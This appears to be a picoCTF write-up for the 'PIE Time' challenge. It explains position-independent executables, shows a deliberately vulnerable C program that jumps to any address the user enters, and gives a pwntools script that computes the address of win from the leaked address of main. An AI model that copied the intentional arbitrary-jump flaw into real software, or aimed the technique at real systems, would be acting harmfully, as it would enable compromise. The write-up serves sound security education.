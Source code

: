 # PIE Time

`Author: Darkraicg492`

> Description - Can you try to get the flag? Beware we have PIE! Additional details will be available after launching your challenge instance.

In this challenge we have given two files vuln.c and a compiled binary with PIE-enabled

We can check this using `checksec` command -

```bash

$ checksec vuln
[*] '/mnt/d/work/picoctf/pie-time/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

The `vuln` binary is compiled with PIE enabled.


## What is PIE?
PIE stands for Position Independent Executable. It's a compiler feature that makes a program’s code segment (the .text section) load at a random address in memory every time the program is run.

In other words, the base address of the binary changes each time, just like shared libraries under ASLR (Address Space Layout Randomization).

### Why PIE Matters in Exploitation
In binaries without PIE, the code segment is loaded at a fixed address. That means:

- Function addresses (like main() or win()) are always the same.
- You can hardcode return addresses or ROP gadgets.
- Exploitation is easier.

In PIE-enabled binaries:

- The code segment is loaded at a random base address.
- You can’t hardcode absolute addresses.
- You must first leak an address and calculate the offset.




Now given `vuln.c` code is -

```c

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

```

The `main` function taking input address and will call the function at that memory address.

The `win` function here is printing the flag from a file `flag.txt`, which is most prolly on the remote server

To test our exploit locally, we’ll create a dummy `flag.txt` file with a fake flag:


```
## flag.txt

flag{REDACTED}

```

Now the exploit here is to pass address of `win` function in the input and hence the flag from `flag.txt` will get printed

Let's first calculate the offset for win function as PIE is enabled relative addressing of function remains same.

We'll use objdump to disassemble the binary and find the relative offsets of main and win.


```bash

$ objdump -d vuln | grep main
    11c1:       48 8d 3d 75 01 00 00    lea    0x175(%rip),%rdi        # 133d <main>
    11c8:       ff 15 12 2e 00 00       call   *0x2e12(%rip)        # 3fe0 <__libc_start_main@GLIBC_2.2.5>
000000000000133d <main>:
    1387:       48 8d 35 af ff ff ff    lea    -0x51(%rip),%rsi        # 133d <main>
    1400:       74 05                   je     1407 <main+0xca>

```

```bash

$ objdump -d vuln | grep win 
00000000000012a7 <win>:
    12db:       75 16                   jne    12f3 <win+0x4c>
    1302:       eb 1a                   jmp    131e <win+0x77>
    1322:       75 e0                   jne    1304 <win+0x5d>

```

Now main function at 0x0133d and win fucntion is at 0x012a7

So hence we'll calculate the offset as

```
MAIN_ADDR - WIN_ADDR = OFFSET
0x0133d - 0x012a7 = 0x96
```

Hence offset is 0x96.

Now what we'll do is use this calculate the actual memory address of win function with the giving actual memory address of main function.

The main address printed by the binary is its actual runtime address. Since PIE is enabled, this will change each time. But the offset between main and win stays the same, which allows us to compute the address of win

```
WIN_MEMORY_ADDR = MAIN_MEMORY - OFFSET
WIN_MEMORY_ADDR = MAIN_MEMORY - 0x96
```

Hence we'll get our win memory address which can be passed as input to get the flag.

We can automate this using a pwntools python script -

```python


from pwn import *

# Load the ELF binary
binary = ELF('./vuln')  # replace with your binary name


HOST = "..."
PORT = "..."
# p = remote(HOST, PORT)  # replace with your remote server address and port
p = process("./vuln")

p.recvuntil(b"main: ")
main_memory = int(p.recvline().strip(), 16)
print(f"main: {hex(main_memory)}")

main_addr = binary.symbols["main"]
print(f"[*] Address of main: {hex(main_addr)}")

win_addr = binary.symbols["win"]
print(f"[*] Address of win: {hex(win_addr)}")

offset = main_addr - win_addr

print(f"[*] Offset: {hex(offset)}")

print(f"[*] Performing {hex(main_memory)} - {hex(offset)}")
win_memory = main_memory - offset
print(f"[*] got win memory: {hex(win_memory)}")

p.recvuntil(b"Enter the address to jump to, ex => 0x12345: ")
p.sendline(hex(win_memory).encode())
p.interactive()

```

Running this will output -

```bash

$ python3 sol.py
[*] '/mnt/d/work/picoctf/pie-time/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[+] Starting local process './vuln': pid 3810
main: 0x5600562ae33d
[*] Address of main: 0x133d
[*] Address of win: 0x12a7
[*] Offset: 0x96
[*] Performing 0x5600562ae33d - 0x96
[*] got win memory: 0x5600562ae2a7
[*] Switching to interactive mode
Your input: 5600562ae2a7
You won!
flag{REDACTED}
[*] Process './vuln' stopped with exit code 0 (pid 3810)
[*] Got EOF while reading in interactive
```

Hurray!! We got our flag by exploiting local executable, you can do similar to get the real flag by replacing `HOST` and `PORT` of remote server that you started.
